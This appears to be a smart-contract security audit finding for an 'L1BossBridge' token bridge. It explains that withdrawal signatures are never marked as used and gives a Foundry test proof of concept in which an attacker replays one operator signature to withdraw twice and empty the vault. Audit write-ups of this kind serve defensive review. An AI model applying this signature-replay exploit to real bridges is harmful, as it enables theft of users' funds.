 ## Vulnerability Details
When one deposits token on L2 to bridge them on L1, the bridge operator approves it by signing a withdrawal message but the usage of signature is not tracked, thus it can be used multiple times to withdraw the tokens on L1 again and again, and potentially drain all the funds via the ```L1BossBridge::sendToL1``` function.

## PoC

### Actors:
- **Attacker**: One who deposits token on L2 to bridge on L1 and use the same signature to withdraw multiple times and drain all the funds.
- **User**: One who deposits on L1 and wants to bridge on L2.
- **Protocol**: The L1BossBridge which handles all the token deposits and withdrawal.
- **Vault**: The vault used to hold the deposited funds.

```cpp
function test_SignatureCanBeReusedAndAllFundsCanBeWithdrawn() public {
    uint256 depositAmount = 10e18;          // user deposits 10 tokens. This amount gets transferred to L1 vault
    address attacker = makeAddr("attacker");  // address of attacker
    uint256 attackerDepositedAmountOnL2 = 5e18;  // let attacker deposited 5 tokens on L2 for bridging on L1
    uint256 attackerWithdrawalAmount = attackerDepositedAmountOnL2;

    vm.startPrank(user);

    // the user deposits token on L1 to get them on L2
    token.approve(address(tokenBridge), depositAmount);
    tokenBridge.depositTokensToL2(user, userInL2, depositAmount);

    vm.stopPrank();

    assertEq(token.balanceOf(address(vault)), depositAmount);

    uint256 attackerInitBalance = token.balanceOf(attacker);

    // Assuming that attacker deposited token amount equivalent to 'attackerDepositedAmountOnL2' on L2 
    // And wants to withdraw on L1
    // Bridge operator signs the required message to perform txn to withdraw
    bytes memory tokenWithdrawalMessage = _getTokenWithdrawalMessage(attacker, attackerWithdrawalAmount);
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(tokenWithdrawalMessage, operator.key);

    vm.startPrank(attacker);

    // Attacker withdraws using the signature of operator who approved for withdrawal
    tokenBridge.withdrawTokensToL1(attacker, attackerWithdrawalAmount, v, r, s);

    // attacker again reuses the same signature to withdraw
    tokenBridge.withdrawTokensToL1(attacker, attackerWithdrawalAmount, v, r, s);

    vm.stopPrank();

    uint256 attackerFinalBalance = token.balanceOf(attacker);

    // attacker was able to withdraw more amount by re-using the same signature
    assertEq(attackerFinalBalance, attackerInitBalance + (attackerWithdrawalAmount * 2));
    assertEq(token.balanceOf(address(vault)), 0);
}
```
